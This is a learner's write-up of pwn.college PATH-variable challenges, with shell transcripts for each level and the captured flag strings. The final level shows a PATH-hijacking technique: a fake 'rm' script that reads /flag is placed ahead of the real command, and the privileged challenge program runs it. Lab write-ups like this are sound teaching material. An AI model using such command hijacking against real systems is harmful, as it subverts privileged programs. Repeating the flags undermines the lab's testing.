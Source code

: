 ## The PATH Variable
Learnt that the `PATH` variable stores directories of programs that we use and dont need absolute or relative paths each time to make it run.<br>
If the PATH variable is cleared then we cant access these programs by say just writing `ls` or `rm`.<br>
In this challenge all i had to do is empty the `PATH` so that the program would not be able to access the `rm` command.<br>
```bash
hacker@path~the-path-variable:~$ PATH=""
hacker@path~the-path-variable:~$ /challenge/run
Trying to remove /flag...
/challenge/run: line 4: rm: No such file or directory
The flag is still there! I might as well give it to you!
pwn.college{E97DWZN6zcUW5CxkDS9jrWvdnPx.dZzNwUDLzYTN0czW}
```
## Setting PATH
We can set the PATH to a directory in which there is some program that we want to access just by its name.<br>
In this challenge i set the PATH to the `/challenge/more_commands to access the win inside it.<br>
```bash
hacker@path~setting-path:~$ PATH=/challenge/more_commands
hacker@path~setting-path:~$ /challenge/run
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
pwn.college{cbaeZ0uoCQd-n1mvZT0P9_4PEJJ.dVzNyUDLzYTN0czW}
```
## Adding Commands
Learnt that we can add a new directory before the OG PATH by using the export command.<br>
Then I made the file named win with cat /flag.<br>
Then Appended the new PATH to the og one by `export PATH=/home/hacker:$PATH`.<br>
```bash
PWN      college  instructions  not-the-flag  script.sh  x.sh
hacker@path~adding-commands:~$ touch win
hacker@path~adding-commands:~$ nano win
hacker@path~adding-commands:~$ echo $PATH
/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~adding-commands:~$ export PATH=/home/hacker:$PATH
hacker@path~adding-commands:~$ echo $PATH
/home/hacker:/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
/challenge/run: line 4: /home/hacker/win: Permission denied
It looks like that did not work... Did you set PATH correctly?
hacker@path~adding-commands:~$ chmod ugo+rwx /home/hacker/win
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
pwn.college{osLhTScptnfviQ5elKFcrGFHFeH.dZzNyUDLzYTN0czW}
```
## Hijacking Commands
Tricky but like the first challenge it was trying to delete the /flag file but i made a new rm file in `/home/hacker`.<br>
this had `/bin/cat` to read out the flag and then removed the PATH and changed it to `/home/hacker`.<br>
```bash
hacker@path~hijacking-commands:~$ cat rm
cat /flag
hacker@path~hijacking-commands:~$ nano rm
hacker@path~hijacking-commands:~$ export PATH=/home/hacker/
hacker@path~hijacking-commands:~$ echo $PATH
/home/hacker/
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{UiMsZje95HclQ2xNdDFO1ZkcR8v.ddzNyUDLzYTN0czW}
```
